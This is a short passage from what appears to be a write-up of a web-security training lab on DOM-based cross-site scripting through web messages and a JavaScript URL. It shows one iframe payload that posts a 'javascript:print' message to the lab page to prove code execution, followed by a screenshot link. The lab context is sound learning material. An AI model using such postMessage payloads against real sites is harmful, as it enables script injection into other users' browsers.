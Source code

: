 If we change the payload to print the page:

```
<iframe src="https://0a0300fb03ec541d83b0e1af005a0096.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print`https://as.com`','*')" style="width:100%;height:100%">
```



![img](images/19%20-%20DOM%20XSS%20using%20web%20messages%20and%20a%20JavaScript%20URL/4.png)
